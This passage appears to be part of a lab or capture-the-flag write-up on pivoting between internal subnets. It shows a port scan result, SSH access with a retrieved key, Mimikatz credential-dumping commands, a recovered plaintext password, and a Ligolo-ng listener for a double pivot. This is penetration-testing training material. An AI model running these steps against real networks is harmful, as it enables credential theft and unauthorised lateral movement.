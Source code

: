```
22/tcp   open  ssh
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  http
```

---

### Internal Network 1 – 172.16.5.35 (PIVOT-SRV01)

Use the credentials from the note and the retrieved key:

```bash
ssh -i id_rsa mlefay@172.16.5.35
```

Grab the flag:

```cmd
type C:\flag.txt
'--- SNIP ---'
```

A quick host check shows another dual-homed system:

```cmd
ipconfig /all
# reveals 172.16.5.35 and 172.16.6.35 interfaces
```

We’re on a system with access to a new internal network (`172.16.6.0/24`).

Dump credentials with Mimikatz:

```cmd
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

Recovered credentials:

```
vfrank : Imply wet Unmasked!
```

---

### Double Pivot with Ligolo-ng

To reach the next subnet, we need to chain pivots through the first host.

Back on your attack host, set a listener to relay:

```bash
ligolo » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

